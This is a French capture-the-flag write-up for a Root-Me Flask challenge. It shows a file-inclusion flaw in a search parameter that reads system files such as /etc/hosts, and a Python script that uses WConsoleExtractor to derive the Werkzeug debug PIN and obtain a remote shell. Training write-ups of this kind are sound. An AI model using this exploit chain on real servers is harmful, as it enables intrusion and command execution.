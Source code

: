 ```yaml
---
title: Web-Serveur - Flask - Development server
meta_title: ""
description: Web-Serveur - Flask - Development server
date: 2024-07-16T19:00:00Z
image: /images/rootme_logo.png
categories:
  - Rootme
  - Web-Serveur
  - Moyen
author: Demat
tags:
  - web-server
  - flask
  - development-server
  - lfi
draft: false
isSecret: true
---
```


## Description

### Énoncé

**Lien du challenge : [Web-Serveur - Flask - Development server](https://www.root-me.org/fr/Challenges/Web-Serveur/Flask-Development-server)**

> #### You need to debug this !
>
> Le développeur web de la société Flask-me vous indique que le site web est prêt à être déployé.
>
> Vérifier que le site est sécurisé avant la mise en production.
>
> Le flag se situe dans le répertoire web de l’application.
>
> #### Accès au challenge
>
> - [Flask-me](http://challenge01.root-me.org/web-serveur/ch85/)

## Exploitation

### Analyse du site web

Il s'agit d'un site web minimaliste avec une [landing page](http://challenge01.root-me.org:59085/) et, seule page fonctionnelle, une page décrivant différents [services](http://challenge01.root-me.org:59085/services) qui ne sont pas encore implémentés.

L'énoncé nous indique que le serveur utilise Flask, un framework web en Python. Ceci est confirmé par l'en-tête `Server: Werkzeug/3.0.0 Python/3.11.9` de la réponse HTTP : *Werkzeug* est la bibliothèque WSGI sous-jacente de Flask.

### Recherche de failles

#### Console de debug

Le nom du challenge, *Development server*, nous indique que le serveur est en mode développement. Pour Flask, cela signifie qu'il existe un endpoint de debug à l'adresse [/console](http://challenge01.root-me.org:59085/console).

En visitant cette page, on peut confirmer que la console de debug est activée, mais elle est protégée par un code PIN.

![Console de debug protégée par un code PIN](/images/flask-dev-server/console-locked-pin.png)

#### Code PIN

Après quelques recherches, on tombe sur ce lien expliquant le fonctionnement du PIN : https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug#pin-protected-path-traversal.

Ce code est généré par le serveur en fonction d'informations propres à la machine et à l'environnement d'exécution. Il est donc unique pour chaque instance de serveur.

Il utilise les informations suivantes :

- `username` : nom de l'utilisateur qui a lancé le serveur
- `modname` : nom du module Python qui a lancé le serveur, typiquement `flask.app`
- Nom de la classe de l'instance d'application Flask : généralement `Flask`
- Chemin absolu du script principal de l'application Flask (`app.py`)
- Adresse MAC du serveur, obtenue avec `uuid.getnode()`
- `get_machine_id()` : génère un identifiant unique pour la machine à partir de fichiers système

Pour obtenir le code PIN, il nous faut donc un accès au contenu des fichiers système de la machine, c'est-à-dire une LFI (Local File Inclusion).

#### Faille LFI

Sur la page [/services](http://challenge01.root-me.org:59085/services), on remarque une fonction de recherche, avec la précision qu'elle n'est pas encore totalement fonctionnelle.

Avec une première [recherche de test](http://challenge01.root-me.org:59085/services?search=test), on constate que le serveur renvoie le message `[Errno 2] No such file or directory: 'test'` : le serveur tente a priori d'accéder au fichier dont le nom est la chaîne de recherche.

Testons avec le chemin absolu [/etc/hosts](http://challenge01.root-me.org:59085/services?search=%2Fetc%2Fhosts) :

![Contenu du fichier /etc/hosts](/images/flask-dev-server/etc-hosts.png)

Bingo !

### Exploitation des failles

Suite à quelques recherches, je suis tombé sur une bibliothèque Python nommée [WConsole Extractor](https://github.com/Ruulian/wconsole_extractor) qui effectue une exploitation automatisée de la faille de la console de debug de Flask, si on lui fournit une fonction pour lire un fichier arbitraire sur le serveur.

Il nous reste donc juste à implémenter cette fonction et à la passer au constructeur `WConsoleExtractor`, comme indiqué sur le README du projet.

Pour cela, nous allons utiliser les bibliothèques `requests` et `BeautifulSoup` pour effectuer les requêtes HTTP et parser le contenu HTML de la page.

```python
#!/usr/bin/env python3

from urllib.parse import urljoin

import requests
from bs4 import BeautifulSoup
from wconsole_extractor import WConsoleExtractor, info

URL = "http://challenge01.root-me.org:59085/"


def leak_function(filename: str) -> str:
    url = urljoin(URL, "/services")
    r = requests.get(url, params={"search": filename})
    if r.status_code == 200:
        if "Errno" in r.text:
            return ""
        soup = BeautifulSoup(r.text, "html.parser")
        center = soup.select_one("div.service_container > div.container > center")
        if center is None:
            return ""
        return center.text.removeprefix("\n          ").removesuffix("\n        ")
    else:
        return ""


def main() -> None:
    extractor = WConsoleExtractor(target=URL, leak_function=leak_function)

    info(f"PIN CODE: {extractor.pin_code}")
    extractor.shell()


if __name__ == "__main__":
    main()
```

Grâce à ce script, on obtient non seulement le code PIN, mais également un shell interactif sur le serveur :

![Shell interactif avec WConsole Extractor](/images/flask-dev-server/wconsole-shell.png)
